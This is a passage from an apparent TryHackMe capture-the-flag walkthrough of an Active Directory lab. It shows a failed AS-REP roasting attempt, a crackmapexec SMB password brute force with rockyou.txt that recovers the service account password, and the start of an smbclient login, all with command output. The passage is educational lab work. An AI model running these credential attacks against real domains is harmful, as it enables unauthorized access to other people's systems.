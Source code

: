 ┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/USTOUN]
└─$ GetNPUsers.py -dc-ip ustoun.local ustoun.local/SVC-Kerb -no-pass
Impacket v0.9.24.dev1+20210629.123513.142cacb6 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for SVC-Kerb
[-] User SVC-Kerb doesn't have UF_DONT_REQUIRE_PREAUTH set
```

But we got no luck so what to do now i try brute forcing SMB with `crackmapexec` using the service account user `SVC-Kerb` .

```
┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/USTOUN]                                                                                                              
└─$ crackmapexec smb ustoun.local -u 'SVC-Kerb' -p /usr/share/wordlists/rockyou.txt  
SMB         10.10.83.170    445    DC               [-] ustoun.local\SVC-Kerb:soccer STATUS_LOGON_FAILURE 
SMB         10.10.83.170    445    DC               [-] ustoun.local\SVC-Kerb:anthony STATUS_LOGON_FAILURE 
SMB         10.10.83.170    445    DC               [-] ustoun.local\SVC-Kerb:friends STATUS_LOGON_FAILURE 
SMB         10.10.83.170    445    DC               [-] ustoun.local\SVC-Kerb:butterfly STATUS_LOGON_FAILURE 
SMB         10.10.83.170    445    DC               [-] ustoun.local\SVC-Kerb:purple STATUS_LOGON_FAILURE 
SMB         10.10.83.170    445    DC               [-] ustoun.local\SVC-Kerb:angel STATUS_LOGON_FAILURE 
SMB         10.10.83.170    445    DC               [-] ustoun.local\SVC-Kerb:jordan STATUS_LOGON_FAILURE 
SMB         10.10.83.170    445    DC               [-] ustoun.local\SVC-Kerb:liverpool STATUS_LOGON_FAILURE 
SMB         10.10.83.170    445    DC               [-] ustoun.local\SVC-Kerb:justin STATUS_LOGON_FAILURE 
SMB         10.10.83.170    445    DC               [-] ustoun.local\SVC-Kerb:loveme STATUS_LOGON_FAILURE 
SMB         10.10.83.170    445    DC               [-] ustoun.local\SVC-Kerb:fuckyou STATUS_LOGON_FAILURE 
SMB         10.10.83.170    445    DC               [-] ustoun.local\SVC-Kerb:123123 STATUS_LOGON_FAILURE 
SMB         10.10.83.170    445    DC               [-] ustoun.local\SVC-Kerb:football STATUS_LOGON_FAILURE 
SMB         10.10.83.170    445    DC               [-] ustoun.local\SVC-Kerb:secret STATUS_LOGON_FAILURE 
SMB         10.10.83.170    445    DC               [-] ustoun.local\SVC-Kerb:andrea STATUS_LOGON_FAILURE 
SMB         10.10.83.170    445    DC               [-] ustoun.local\SVC-Kerb:carlos STATUS_LOGON_FAILURE 
SMB         10.10.83.170    445    DC               [-] ustoun.local\SVC-Kerb:jennifer STATUS_LOGON_FAILURE 
SMB         10.10.83.170    445    DC               [-] ustoun.local\SVC-Kerb:joshua STATUS_LOGON_FAILURE 
SMB         10.10.83.170    445    DC               [-] ustoun.local\SVC-Kerb:bubbles STATUS_LOGON_FAILURE 
SMB         10.10.83.170    445    DC               [-] ustoun.local\SVC-Kerb:1234567890 STATUS_LOGON_FAILURE 
SMB         10.10.83.170    445    DC               [+] ustoun.local\SVC-Kerb:superman 
```

Boom and we have the credentials now let try to log in SMB.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/USTOUN]
└─$ smbclient //10.10.83.170/NETLOGON -U SVC-Kerb
Enter WORKGROUP\SVC-Kerb's password: 
Try "help" to get a list of possible commands.
smb: \> ls